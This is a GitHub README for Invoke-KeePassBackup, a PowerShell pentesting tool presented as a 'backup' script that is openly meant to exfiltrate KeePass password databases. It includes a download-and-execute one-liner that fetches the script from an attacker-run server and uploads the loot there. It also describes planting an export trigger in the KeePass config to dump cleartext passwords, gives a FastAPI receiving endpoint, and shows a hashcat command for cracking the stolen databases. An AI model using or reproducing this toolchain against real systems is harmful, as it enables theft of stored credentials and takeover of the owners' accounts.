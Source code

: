 # Invoke-KeePassBackup
This PowerShell script is designed to automate the process of sending KeePass databases to a specified endpoint. 🕊️ Quick script for your pentesting arsenal in order to exfiltrate target databases for further exploitation.

## Features
- Automatically locates the KeePass executable and ascertains its version.
- Adds an export trigger to the KeePass configuration if KeePass version is below 2.53.
- Backs up the current KeePass configuration before making changes.
- Scours all KeePass databases on the computer and uploads them to a given endpoint.
- Uses GZip compression for efficient backup size.
  
## Usage
Run the script using the following command:
```powershell
Invoke-KeePassBackup -url "https://backup.endpoint/u"
```

Knowing the real use-case, preferred running is from your own `HTTP(S)`/`WebDAV` server:
```powershell
$ip="192.168.45.218";powershell -nop -c "iex(irm http://$ip/Invoke-KeePassBackup.ps1); Invoke-KeePassBackup http://$ip/u"
```
It will output something like this:
```powershell
--------------- KeePass backup for noah@ITWR02
KeePass location: C:\Program Files\KeePass Password Safe 2\KeePass.exe
KeePass version: 2.51.1.0
--------------- Adding an export trigger on config file: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.xml
Backup of current config file done at: C:\Users\noah\AppData\Roaming\KeePass\KeePass.config.backup.xml
Export location: C:\Users\noah\AppData\Local\Temp\KeePassBackup.csv
Configuration complete. The trigger will go off as soon as it is opened.
--------------- Scanning for KeePass databases on ITWR02
Found KeePass database at: C:\Users\noah\Documents\Database.kdbx
Uploaded noah@ITWR02-20231012-Database.kdbx successfully!
```

The reception endpoint could resemble this FastAPI Python3 code snippet:
```python
@app.post("/u")
async def upload_file(x_file_name: str = Header(...), data: str = Body(...)):
    """
    Handle file upload via POST request.

    Args:
        x_file_name (str): The name of the file, from header.
        data (str): The body of the request containing the uploaded file's data.

    Raises:
        HTTPException: If the filename header is missing.
        HTTPException: If an error occurs during file upload.
    """

    if not x_file_name:
        raise HTTPException(
            status_code=status.HTTP_400_BAD_REQUEST,
            detail="Provide a filename with Header 'X-File-Name'",
        )

    try:
        # Decode the base64 data
        decoded_data = base64.b64decode(data.encode("utf-8"))

        # Check if the data is gzipped by looking at the first two bytes
        if decoded_data[:2] == b"\x1f\x8b":
            # If gzipped, decompress
            buffer = io.BytesIO(decoded_data)
            with gzip.GzipFile(fileobj=buffer, mode="rb") as f:
                processed_data = f.read()
        else:
            # If not gzipped, just use the decoded data as is
            processed_data = decoded_data

        # Save the file
        save_file_content(file_name=x_file_name, data=processed_data)

        return {"status": "success", "message": f"Received {x_file_name}."}

    except Exception as error:
        logger.error(f"Error while processing upload: {error}")
        raise HTTPException(status_code=500)
```

Once database received, to crack the KeePass database hash, first use `keepass2john` to extract the hash. Then, remove the prepended filename, which acts as a username, and utilize `hashcat` with the desired wordlist and rules.
```shell
hashcat $(keepass2john loot/noah@ITWR02-20231012-Database.kdbx | cut -d':' -f2-) -a 0 -O -D 1 -w 3 /usr/share/wordlists/rockyou.txt -m 13400 -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
